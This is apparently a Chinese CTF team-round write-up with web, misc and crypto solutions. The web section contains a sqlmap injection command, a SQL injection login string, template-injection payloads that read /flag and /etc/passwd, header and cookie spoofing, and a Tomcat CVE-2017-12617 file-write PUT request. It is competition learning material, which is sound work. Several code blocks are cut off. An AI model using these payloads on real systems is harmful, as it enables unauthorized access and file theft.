

前言
第一天经历了个人解题晋级赛之后，第二天就是团体的解题赛，这一天管理相对第一天比较严一些，进行手机的提交要求，第一天虽然也提交了，明显还是有人使用手机开了热点。这一天的刷题还算是比较顺利，web题目就一道大家都没有解出来之外，其他的也全部搞定。
团体解题晋级赛
有了第一天的经历之后，这次相对的把自己的节奏和心态都稍微的进行调整，解题中相对还算是比较顺利，两个队伍都挺进了决赛。
Web
- revenge_of_sql
sql的复仇，应该是和sql注入有关，首先进行敏感目录扫描，发现.git源码泄露
直接githack 发现 index.php文件存在 过滤空格的盲注注入，直接sqlmap 跑数据库但是发现没有
sqlmap -r 1.txt –random-agent –dbms=mysql –tamper=space2comment.py -v 3 –sql-shell1
2
3
4
5available databases [4]:
[*] information_schema
[*] mysql
[*] performance_schema
[*] sql1
admin xman 登录进入 和源码的逻辑相同没有显示
也可以手工注入登录Username='/**/union/**/select('202cb962ac59075b964b07152d234b70')#&password=123
最后分析一下git历史信息

发现有flag22222.php
使用sqlmap 跑一下
- Web baby python
没有啥思路，直接爆破url参数
发现出现花括号 会出现信息的不完整输出，那应该明确了考点，就是python web的模板注入，可以直接使用函数读文件
也可以使用其他python 沙盒绕过1
2{{''.__class__.__mro__.__getitem__(2).__subclasses__().pop(40)('/flag').read() }}` 等python链进行代码的执行
http://10.98.98.25:5554/404?msg='}}{{ open('/etc/passwd').read() }}
- ezupload
文件上传常规套路：直接大小写 javascript 改后缀 截断
http
[步骤]
访问发现提示
不是本地人，不允许访问， 于是修改xff为127.0.0.1或localhost伪造为本地
伪造后提示未登录，查看cookie发现存在login=0的键值，将0修改为1得到flagezpentest
[分析]
这道题，没有队伍解出来，当时进行了目录的扫描，和nmap的扫描，发现了8080 端口tomcat，按题目的说明，应该是一个tomcat溢出漏洞，赛后讨论应该是
CVE-2017-12617(远程代码执行漏洞)影响范围:1
2
3
4
5
6
7Apache Tomcat 9.0.0.M1-9.0.0
Apache Tomcat 8.5.0-8.5.22
Apache Tomcat 8.0.0.RC1-8.0.46
Apache Tomcat 7.0.0-7.0.81
当时没有网，也就没有找到具体的payload ，可以参考P牛的vuln库 任意文件写入1
2
3
4
5
6
7
8
9
10PUT /1.jsp/ HTTP/1.1
Host: your-ip:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 5
shell
- Check in
考察的是python的cPickle的反序列化漏洞
1 | # !/usr/bin/env python |
misc
- 流量包解密02

题目进行了说明，mac地址就是秘钥，国赛的题目也出现过，当时提取mac之后没有跑出来
，最会拼一下脑洞发现，爆破的时候的数据包的mac 地址就是密码
提示是mac，尝试提取mac不行，结果就是脑洞
1 B4:0B:44:C2:D5:FF xj WPA (1 handshake)
然后发现就是dns apr 做中间人，做了个test.txt success.txt的测试
就没有url了需要再次脑洞一下吧。还是那个师傅的blog
说的是url flag{http://www.wiattack.net/test.txt}
- 如来十三掌
1
夜哆悉諳多苦奢陀奢諦冥神哆盧穆皤三侄三即諸諳即冥迦冥隸數顛耶迦奢若吉怯陀諳怖奢智侄諸若奢數菩奢集遠俱老竟寫明奢若梵等盧皤豆蒙密離怯婆皤礙他哆提哆多缽以南哆心曰姪罰蒙呐神。舍切真怯勝呐得俱沙罰娑是怯遠得呐數罰輸哆遠薩得槃漫夢盧皤亦醯呐娑皤瑟輸諳尼摩罰薩冥大倒參夢侄阿心罰等奢大度地冥殿皤沙蘇輸奢恐豆侄得罰提哆伽諳沙楞缽三死怯摩大蘇者數一遮
与佛论禅解密：MzkuM3gvMUAwnzuvn3cgozMlMTuvqzAenJchMUAeqzWenzEmLJW9
尝试base64解密失败，继续尝试，发现先rot13，在base64ZmxhZ3tiZHNjamhia3ptbmZyZGhidmNraWpuZHNrdmJramRzYWJ9flag{bdscjhbkzmnfrdhbvckijndskvbkjdsab}
Find_your_flag
是一个内存取证的题目
Volatility工具安排一下
遍历文件找一找flag
导出文件发现需要密码，根据提示猜测密码可能在剪切板
倍四家族
这个题是一个7z的带密码的压缩包，想推导密码，你需要点脑洞，根据题目和压缩包，发现密码是flag字符的base64编码，解密出flag.txt
最后写一个脚本进行每一行的解密（参考官方wp）
1 | def get_base64_diff_value(s1, s2): |
- 得到
1 | W^7?+dv|4DVs&z9Wn^D$Z+2y0W?^k<Y<XW~X>)U7bZK*DVPkY<WPJ |
- 猜测是base85，python跑一下
1 | In [1]: import base64 |
密码
- short_story
一个doc文档，字体有点高低和一个隐藏的矩阵，应该是hill加密
1 | 美国代表团访华时曾有一名官员当着周总理的面说中国人很喜欢低着头走路而我们美国人却总是抬着头走路周总理不慌不忙脸带微笑地说这并不奇怪因为我们中国人喜欢走上坡路而你们美国人喜欢走下坡路 |
- 继续从文档中获得密钥。文档末尾隐藏了一个矩阵，选中更改字体颜色后可以看到。根据这个矩阵，联想到hill加密
先根据密钥矩阵计算逆矩阵，将密文按照2个2个分组，与逆矩阵右乘得到明文。
1 | # coding:UTF-8 |
得到llihllamssihtrednu
题目中说“走下坡路”，所以想到字符串经过反向处理。
得到flag{underthissmallhill}。
- weak_des
给出了加密代码
参考0xptdg战队的py1
2
3
4
5
6
7
8#coding:utf-8
from Crypto.Cipher import DES
import libnum
ct=open('ciphertext','rb').read()
KEY=libnum.n2s(0xe0e0e0e0f1f1f1f1)
IV='13245678'
a=DES.new(KEY,DES.MODE_OFB,IV)
print a.decrypt(ct)
1 | The furthest distance in the world |

Powered by HyperComments